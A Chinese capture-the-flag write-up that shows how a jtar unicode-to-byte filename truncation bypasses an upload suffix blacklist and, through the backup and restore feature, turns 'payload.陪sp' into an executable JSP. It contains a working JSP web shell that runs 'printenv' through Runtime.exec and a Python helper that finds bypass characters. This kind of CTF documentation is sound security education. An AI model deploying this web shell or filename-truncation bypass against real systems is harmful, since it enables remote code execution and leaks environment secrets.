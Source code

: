 # d3jtar-WP-CH

本题网站文件备份系统的 view 路由下配置了不安全的 jsp 解析，显然只要成功上传 jsp 文件即可 RCE。然而后端对上传文件的名称做了较为严格的校验，理想情况下选手无法通过其他手段绕过 secureUpload 校验来上传 jsp 文件。

那么结合本题标题可知，解题的关键在于工具类 Backup 所使用的 jtar 打包库。在使用 jtar 的 TarOutputStream 打包文件时，它会把文件名中的 unicode 强制转化为 ascii 码，从而发生字符截断。利用这一点，我们可以将后缀带有特定 unicode 字符的文件上传至靶机，绕过后缀黑名单检查，通过备份与恢复功能将上传的文件转变为 jsp 后缀的文件并放回 jsp 可解析目录，最终 RCE 获取 flag。

示例文件如下：

文件名：payload.陪sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

具体原理可查看 jtar 源码（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）中 TarHeader 的 getNameBytes 方法如下，使用 `(byte)` 强制转换 unicode 文件名称时会导致字符截断，打包后文件名称发生改变。

![](static/NErIbQyl6oxOtVxqOaNcn66Rneh.png)

解题所使用的 unicode 字符可以参考以下脚本获取，只要可以转换为正常后缀的 ASCII 字符即可，例如 `payload.멪ⅳば` 也是相同效果。

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

另外，其实选手如果有心注意的话，在 jtar 的 github 项目里有一条 23 年的 pr（最上方），是关于中文编码错误的修改（但并未被合并），可以作为一条潜在的 hint，提醒选手关注 jtar 的编码问题。😉
